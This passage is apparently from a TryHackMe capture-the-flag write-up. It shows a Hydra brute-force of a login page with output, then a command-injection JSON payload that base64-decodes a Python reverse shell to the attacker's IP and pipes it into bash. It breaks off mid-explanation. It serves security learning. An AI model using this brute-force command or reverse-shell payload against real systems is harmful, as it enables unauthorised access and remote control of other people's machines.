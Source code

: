 {: .nolineno}

>Note : Each time you load this machine all the password gets changes .
{: prompt-danger }

I got 2 users mainly rascal and fox so I brute forced the password for Login page with user rascal and  i got the results →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotf]
└─$ hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.17.75 http-get / -t 60
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-21 21:19:51
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking http-get://10.10.17.75:80/
[STATUS] 5706.00 tries/min, 5706 tries in 00:01h, 14338693 to do in 41:53h, 60 active
[STATUS] 5881.33 tries/min, 17644 tries in 00:03h, 14326755 to do in 40:36h, 60 active
[80][http-get] host: 10.10.17.75   login: rascal   password: <PASSWORD>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-21 21:23:08
```
{: .nolineno}
{: .nolineno}

Now I logged in and got a search page like this →

![Untitled](picture1.png)

Now with burpsuite I intercepted the request →

![Untitled](picture2.png)
_search parameter request_

I founded the command injection possibility through pinging on my attackers machine like this →

![Untitled](picture3.png)
_Input replaced with command injection_

Now I the payload of base 64 encode-decode one for reverse shell like this →

```bash
{"target":"\";echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjguODMuMTU2Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn | base64 -d | bash ;
}
```
{: .nolineno}
{: .nolineno}

The base64 encode payload is this →
